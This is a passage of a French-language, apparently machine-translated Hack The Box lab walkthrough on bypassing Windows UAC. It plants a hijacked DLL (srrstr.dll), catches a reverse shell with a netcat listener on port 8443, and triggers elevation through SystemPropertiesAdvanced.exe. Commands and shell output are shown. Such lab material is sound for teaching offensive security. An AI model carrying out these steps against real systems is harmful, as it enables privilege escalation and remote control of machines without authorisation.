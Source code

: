Tester la connexion

```
C:\htb> rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll

```

Une fois la connexion rétablie, nous verrons les droits d'utilisateur normaux.

Tester la connexion

```
dsgsec@htb[/htb]$ nc -lnvp 8443

écoute sur [tout] 8443 ...

se connecter à [10.10.14.3] depuis (INCONNU) [10.129.43.16] 49789
Microsoft Windows [Version 10.0.14393]
(c) Microsoft Corporation 2016. Tous les droits sont réservés.

C:\Users\sarah> whoami /priv

whoami /priv

INFORMATIONS SUR LES PRIVILÈGES
----------------------

Nom du privilège Description État
================================================= =============== ========
SeShutdownPrivilege Arrêter le système Désactivé
SeChangeNotifyPrivilege Bypass traverse la vérification activée
SeUndockPrivilege Supprimer l'ordinateur de la station d'accueil Désactivé
SeIncreaseWorkingSetPrivilege Augmenter un ensemble de travail de processus Désactivé
SeTimeZonePrivilege Changer le fuseau horaire Désactivé

```

#### Exécution de SystemPropertiesAdvanced.exe sur l'hôte cible

Maintenant, nous pouvons exécuter la version 32 bits de `SystemPropertiesAdvanced.exe` à partir de l'hôte cible.

Exécution de SystemPropertiesAdvanced.exe sur l'hôte cible

```
C:\htb> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe

```

#### Réception de la connexion Retour

En revenant sur notre auditeur, nous devrions recevoir une connexion presque instantanément.

Réception de la connexion Retour
